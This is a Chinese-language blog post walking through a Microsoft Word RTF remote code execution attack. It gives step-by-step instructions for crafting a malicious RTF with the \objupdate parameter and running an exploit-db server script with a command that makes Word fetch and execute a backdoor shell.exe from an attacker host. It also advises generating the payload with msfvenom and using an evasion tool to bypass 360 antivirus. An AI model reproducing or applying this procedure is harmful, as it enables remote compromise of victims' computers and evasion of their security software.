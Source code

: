 ```yaml
---
author: heh3.org
comments: true
date: 2017-04-19 10:45:54+00:00
layout: post
link: http://heh3.org/?p=96
slug: microsoft-word-rtf-remote-code-execution
title: Microsoft Word - '.RTF' Remote Code Execution
wordpress_id: 96
categories:
- windows
- word
---
```


#### step1：


vps上开启web服务，存放一个任意内容的doc文档，暂且命名为"innocent.doc",
地址：http://192.168.111.136/innocent.doc


#### step2：


建立一个word文档，插入一个object，由文本创建，勾选链接到文件！
如下：

**另存为“文档名.rtf”**
![](http://i.imgur.com/STotrUR.png)


#### step3：


关闭rtf文档，使用文本编辑器编辑rtf文件，添加“\objupdate”参数，保存
![](http://i.imgur.com/WlYVszc.png)

至此恶意文档已经构建完成！


#### step4：


使用exploit-db上的测试脚本，建立服务端，以响应文档内的http请求。
脚本地址：
https://www.exploit-db.com/download/41894

python 41894.py 80 http://192.168.111.136/shell.exe /var/www/html

80为服务器端口，http://192.168.111.136/shell.exe 为后门程序地址 “/var/www/html/"为后门程序物理路径


#### step5：


使用word打开rtf格式的恶意文档，此时word会发送一个objetc升级请求到step4建立的服务器，服务器会把后门程序shell.exe返回word并执行。
此时攻击已经完成。

关于后门程序的生成，可以使用msfvenom进行
参考：
https://www.i0day.com/1173.html

当然，执行后360会把它干掉，所以免杀必不可少，这里我用harness做了个后门，bypass 360.当然还有其他的免杀工具，真有需要就自己找找吧。
